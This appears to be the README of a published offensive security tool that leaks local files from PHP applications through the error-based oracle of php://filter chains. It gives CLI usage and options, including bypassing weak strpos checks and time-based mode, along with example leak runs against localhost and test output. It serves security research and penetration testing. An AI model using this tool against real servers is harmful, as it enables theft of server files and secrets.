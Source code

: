 # PHP filter chains: file read from error-based oracle

A CLI to exploit parameters affected by the file read caused by the the error-based oracle of PHP filter chains. It can be used to leak the content of a local file when passed to vulnerable functions, such as `file()`, `hash_file()`, `file_get_contents()` or `copy()`, even when the server does not return the file content!

As long as an action is performed on a file content and the full URI is controlled, the function can be affected by the `php://filter` wrapper, and therefore exploited by this tool. More information in our blogpost: https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle

The trick was first discovered and disclosed as a challenge by @hash_kitten during the DownUnderCTF 2022.

## Usage
By default, the tool requires the parameters `target` (targeted URL), `file` (the local file to leak) and `parameter` (parameter where you want to inject). 
Several other options can be defined and are detailed here: 

```bash
$ python3 filters_chain_oracle_exploit.py --help
usage: filters_chain_oracle_exploit.py [-h] --target TARGET --file FILE --parameter PARAMETER [--data DATA] [--headers HEADERS] [--verb VERB] [--proxy PROXY] [--in_chain IN_CHAIN]
                                       [--time_based_attack TIME_BASED_ATTACK] [--delay DELAY] [--json JSON] [--match MATCH] [--offset OFFSET] [--log LOG]

        Oracle error based file leaker based on PHP filters.
        Author of the tool : @_remsio_
        Trick firstly discovered by : @hash_kitten
        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        $ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
        [*] The following URL is targeted : http://127.0.0.1
        [*] The following local file is leaked : /test
        [*] Running POST requests
        [+] File /test leak is finished!
        b'SGVsbG8gZnJvbSBTeW5hY2t0aXYncyBibG9ncG9zdCEK'
        b"Hello from Synacktiv's blogpost!\n"
        

options:
  -h, --help            show this help message and exit
  --target TARGET       URL on which you want to run the exploit.
  --file FILE           Path to the file you want to leak.
  --parameter PARAMETER
                        Parameter to exploit.
  --data DATA           Additionnal data that might be required. (ex : {"string":"value"})
  --headers HEADERS     Headers used by the request. (ex : {"Authorization":"Bearer [TOKEN]"})
  --verb VERB           HTTP verb to use POST(default),GET(~ 135 chars by default),PUT,DELETE
  --proxy PROXY         Proxy you would like to use to run the exploit. (ex : http://127.0.0.1:8080)
  --in_chain IN_CHAIN   Useful to bypass weak strpos configurations, adds the string in the chain. (ex : KEYWORD)
  --time_based_attack TIME_BASED_ATTACK
                        Exploits the oracle as a time base attack, can be improved. (ex : True)
  --delay DELAY         Set the delay in second between each request. (ex : 1, 0.1)
  --json JSON           Send data as JSON (--json=1)
  --match MATCH         Match a pattern in the response as the oracle (--match='Allowed memory size of')
  --offset OFFSET       Offset from which a char should be leaked (--offset=100)
  --log LOG             Path to log file (--log=/tmp/output.log)
```

## Usage as a library

If you want to use the logic from the library in a python script, you can import `Bruteforcer` and implement a subclass.

```python
from php_filter_chains_oracle_exploit.filters_chain_oracle.core.bruteforcer import Bruteforcer

class MyBruteforcer(Bruteforcer):
    ...
```

## Improvements

Other features may be added to the tool, feel free to contribute if you have ideas!

### Run unit tests

Before making a Pull Request, please make sure that all tests are still working. To do so, you need to have `php` and `python3` installed.

Once the setup is ready, run the command `python3 -m unittest` from the folder `filters_chain_oracle` :

```bash
$ python3 -m unittest
.[*] The following URL is targeted : http://127.0.0.1:42424/tmpnkrg4kv8.php
[*] The following local file is leaked : /tmp/tmpiabnwasl
[*] Running POST requests
[+] File /tmp/tmpiabnwasl leak is finished!
YWJjZGVmZ2hpamtsbW5v
b'abcdefghijklmno'
[*] Info logged in : /tmp/tmp2oycnj_s
..
----------------------------------------------------------------------
Ran 3 tests in 26.823s

OK
```